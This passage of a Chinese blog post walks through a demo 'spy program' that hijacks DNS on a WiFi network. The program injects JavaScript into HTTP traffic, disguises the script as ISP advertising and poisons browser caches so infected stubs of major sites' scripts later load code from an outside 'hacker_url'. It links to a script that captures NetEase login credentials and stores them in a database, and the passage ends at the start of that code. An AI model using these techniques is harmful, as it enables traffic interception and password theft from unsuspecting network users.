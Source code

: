 <p nodeIndex="54">　　这时会发现，ping任何域名，不出意外的话都会返回你的IP，DNS劫持已发挥作用了！</p>
<div class="cnblogs_code" nodeIndex="55">
<pre nodeIndex="56">
$ <span nodeIndex="181">ping</span><span nodeIndex="182"> www.baidu.com
PING www.baidu.com (</span><span nodeIndex="183">192.168</span>.<span nodeIndex="184">1.250</span>): <span nodeIndex="185">56</span><span nodeIndex="186"> data bytes
Request timeout </span><span nodeIndex="187">for</span> icmp_seq <span nodeIndex="188">0</span><span nodeIndex="189">

$ </span><span nodeIndex="190">ping</span><span nodeIndex="191"> www.google.com
PING www.google.com (</span><span nodeIndex="192">192.168</span>.<span nodeIndex="193">1.250</span>): <span nodeIndex="194">56</span><span nodeIndex="195"> data bytes
Request timeout </span><span nodeIndex="196">for</span> icmp_seq <span nodeIndex="197">0</span><span nodeIndex="198"><br nodeIndex="199"></span>
</pre></div>

<p nodeIndex="58">　　打开任意网页，一切正常。我们可以在node控制台看到用户访问的每一个请求。</p>
<div id="RIL_IMG_3" class="RIL_IMG"><img src="/media/posts_images/2017-07-14-392348187/3"/></div>

<p nodeIndex="61">　　当然这时网页上什么效果也没出现。这个Demo毕竟是个间谍程序，怎么可能会有界面呢？</p>
<p nodeIndex="62">　　想看效果的话修改项目里的<strong nodeIndex="201">asset/inject/extern.js</strong>，往里面加一条：</p>
<div class="cnblogs_code" nodeIndex="63">
<pre nodeIndex="64">
alert('Hello World');
</pre></div>
<p nodeIndex="65">　　这时再刷新页面，效果出现了！</p>
<div id="RIL_IMG_4" class="RIL_IMG"><img src="/media/posts_images/2017-07-14-392348187/4"/></div>
<p nodeIndex="67">　　打开任意网页的源文件，发现其中都注入了我们的脚本内容。为了隐蔽性，这里将注入的脚本伪装成运营商的url，别人还以为是联通宽带插的广告 ^_^</p>
<p nodeIndex="68">　　具体想伪装成什么地址，可以在config.json里配置。</p>
<div id="RIL_IMG_5" class="RIL_IMG"><img src="/media/posts_images/2017-07-14-392348187/5"/></div>
<p nodeIndex="70">　　脚本内容正是asset/inject/extern.js文件：</p>
<div id="RIL_IMG_6" class="RIL_IMG"><img src="/media/posts_images/2017-07-14-392348187/6"/></div>
<p nodeIndex="72">　　到此，我们已实现把javascript代码注入到WiFi网络的HTTP流量里了！</p>
<p nodeIndex="73">　　下面测试我们的终极目标：能穿越到未来执行的脚本时光机。</p>

<p nodeIndex="75">　　前面仔细观察的话，不难发现注入的脚本内容里多出一大堆url，这些正是我们需要让用户预加载并缓存的各大网站脚本。具体原理在上一篇里已经详细讲解了。</p>
<p nodeIndex="76">　　如果想入侵更多的网站，往tool/cache-sniffer/url.txt里添加。运行：</p>
<div class="cnblogs_code" nodeIndex="77">
<pre nodeIndex="78">
$ phantomjs sniffer.js
</pre></div>
<p nodeIndex="79">　　程序将自动更新注入脚本的内容。</p>
<p nodeIndex="80">　　要想预加载并缓存一个脚本很容易，只需new Image().src='...'。当然有少数浏览器不支持，不过ie和chrome都是支持的。尽管js文件并不是一个图片，但仍然会缓存。</p>
<p nodeIndex="81">　　上一篇文章已说明，为了减少一次请求大量脚本文件消耗的带宽，我们并不返回真正的原始脚本文件，而是一个很小的“桩文件”，用来启动我们的入侵代码，以及恢复原始脚本文件。</p>
<p nodeIndex="82">　　因此这个“桩文件”代码量非常少，区区百来字节而已。例如hao123网站下的某个已被感染了的脚本：</p>
<div id="RIL_IMG_7" class="RIL_IMG"><img src="/media/posts_images/2017-07-14-392348187/7"/></div>
<p nodeIndex="84">　　我们创建两个script元素，来加载外网的入侵代码，以及恢复原始脚本代码，使网页能正常运行。<span nodeIndex="206">注意：原始脚本url后面的?1必不可少，否则又会从缓存里加载被感染的当前脚本，进入死循环。</span></p>
<p nodeIndex="85"><strong nodeIndex="207">　　使用document.write的好处在于，它创建的脚本是异步加载顺序执行的。</strong>所以在原始脚本未加载完之前，后面的脚本不会执行，避免了未定义错误的发生。</p>
<p nodeIndex="86">　　入侵代码的url可以在config.json里hacker_url字段配置。为了保证未来被感染的脚本被唤醒时，能正常调出你的入侵代码，所以选择一个可靠的外网来存放。</p>
<p nodeIndex="87">　　本Demo演示如何入侵并截获网易首页的账号，可以参考代码：<a href="http://jslog.sinaapp.com/ad.js" target="_blank" nodeIndex="208">http://jslog.sinaapp.com/ad.js</a>。</p>
<p nodeIndex="88">　　演示中的代码很简单，仅仅捕捉用户在网易首页上输入的账号和密码而已，然后传给后台保存到数据库里。</p>
<div class="cnblogs_code" nodeIndex="89">
<pre nodeIndex="90">
    <span nodeIndex="209">var</span> url =<span nodeIndex="210"> location.href;
    </span><span nodeIndex="211">if</span> (/\.163\.com/<span nodeIndex="212">i.test(url)) {
        </span><span nodeIndex="213">function</span><span nodeIndex="214"> onSubmit() {